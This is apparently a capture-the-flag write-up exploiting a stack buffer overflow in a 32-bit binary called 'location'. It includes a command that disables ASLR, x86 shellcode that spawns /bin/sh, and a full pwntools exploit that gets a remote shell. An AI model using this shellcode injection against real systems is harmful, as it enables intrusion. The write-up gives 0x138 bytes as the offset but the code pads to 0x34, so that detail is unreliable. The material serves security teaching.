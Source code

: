 ```yaml
---
description: Writing shellcode to a provided buffer.
---
```


# location

{% file src="../../.gitbook/assets/location.zip" %}

We will practice writing shellcode against a binary with an executable stack. Note that this attack is relatively uncommon because executable stacks are turned off by default. Shellcode can often work better with other exploit techniques that alter the binary.

### Verifying Shellcode

We check the security measures to see that shellcode is plausible:

```nasm
$ checksec location
[*] '/home/joybuzzer/Documents/vunrotc/public/02-shellcodes/location/src/location'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

The mark that the stack is executable is our sign that we can use a shellcode attack. The reverse is not always true: _a binary with a non-executable stack can still be vulnerable to shellcode attacks._

### Running the Binary

Running shellcode binaries are good ways to check the information we have:

```nasm
$ nc vunrotc.cole-ellis 2300
Buffer is at 0xffffd308
[[[Test input]]]
You lose!
```

We might notice that if we run this file _remotely_ multiple times, the address of the buffer is not changed. What happens when we run the file _locally_? We notice that the address of the buffer changes every time and by a significant amount.

{% hint style="danger" %}
The reason behind this is a security measure called **ASLR**. ASLR stands for **A**ddress **S**pace **L**ayout **R**andomization. ASLR is a security measure that randomizes the location of the stack and heap in memory. This means that when the binary is loaded, the address of the buffer is guaranteed going to change. This makes it harder to exploit the binary, because we can't just hardcode the address of the buffer into our exploit.
{% endhint %}

Because ASLR is turned off on the remote server, the address is not changing. ASLR is turned on locally, so the address is changing. We can turn off ASLR locally to make our lives easier:

```nasm
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{% hint style="info" %}
To turn it on again, use `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space`.
{% endhint %}

### Static Analysis

One of the first things you should notice is that there is no `win()` function or anything like that. This means that we will need to get the flag some other way. We also notice that the `flag.txt` file is never loaded (verifiable by `strings location | grep flag.txt`). _How can we solve this?_ If we can find some way to get a shell on the remote server, we can read the flag ourselves.

There is an obvious vulnerable `gets()` call, and we know that the stack is executable. This means that we could write lots of shellcode in our buffer. Since we know where the address of our buffer is, we can then jump to that address and execute our shellcode.

### Writing the Shellcode

Writing your own shellcode is a bit out of the scope of this guide. This guide focuses more on ways to exploit a binary and use your resources rather than reinventing the wheel and doing it from scratch.

I use the same few shellcodes for most of my challenges. There is an online database of shellcodes called [Shellstorm](https://shell-storm.org/shellcode/index.html) that has lots of functional shellcode for various architectures.

Since this is a 32-bit binary, I choose an x86 shellcode that spawns a shell. [Shellstorm-811](https://shell-storm.org/shellcode/files/shellcode-811.html) is a great choice for this challenge. The shellcode reads:

```nasm
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
```

We can either pass the shellcode as a string of functions, or we can pass it as a byte string of hexadecimal values. Frankly, the second one is easier, and the shellcode is provided in that format:

```python
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

### Writing the Payload

We need to consider how we're going to craft this payload. The only reference we have is the address of the buffer, meaning that the shellcode needs to start there. We still need to overwrite the return pointer. We see that we need to write `0x138` bytes to reach the return pointer.

Thankfully, Python has a way to fill a string to a desired size: `ljust`. `ljust` takes two arguments, being the new size of the string and the character you want to use to fill the space. `ljust` will **left justify** the old string in the new string, filling the space on the back. (_There are other commands like `rjust`, but that's not useful for us in this case_).

We can format this command as

```python
payload = payload.ljust(0x138, b'A')
```

This means that our payload is going to look like:

```python
payload = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = payload.ljust(0x34, b'A')
payload += p32(buf)
```

### Getting the Buffer Address

How do we get the address of `buf`, where we're writing to? Pwntools has a method that lets us receive data, so we can receive that address and convert it into a buffer.

There are multiple methods to receive data from the process. By far, the most useful is `recvuntil()`, which takes an argument of the string you want to match when receiving data. At the first instance it finds the passed string, it will stop receiving data. This means that we should do this in two parts:

1. Get the first part of the data, which is the string before the buffer, then
2. Get the buffer address and convert it to a hex value.

```python
p.recvuntil(b'Buffer is at ')
buf = int(p.recvline().strip(), 16)
```

Let's break this one down:

* We know that the format of the line is "_Buffer is at 0xff8bc508_".
* We first receive all the data before the address of the buffer. That data isn't relevant to us, so there's no need to store it.
* Then, we receive the rest of the line, which is the address. `.strip()` removes the new line at the end.
* `int(x, 16)` converts a string with a hex value (i.e. `"0xff8bc508"`) into a hexadecimal.

### Flag

This is everything we need to craft an exploit.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./location')
p = remote('vunrotc.cole-ellis.com', 2300)

p.recvuntil(b'Buffer is at ')
buf = int(p.recvline().strip(), 16)
log.info(f'buf: {hex(buf)}')

payload = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = payload.ljust(0x34, b'A')
payload += p32(buf)

p.sendline(payload)
p.interactive()
```
{% endcode %}

This gets a shell on the remote server, and then we can `cat flag.txt` to get the flag!
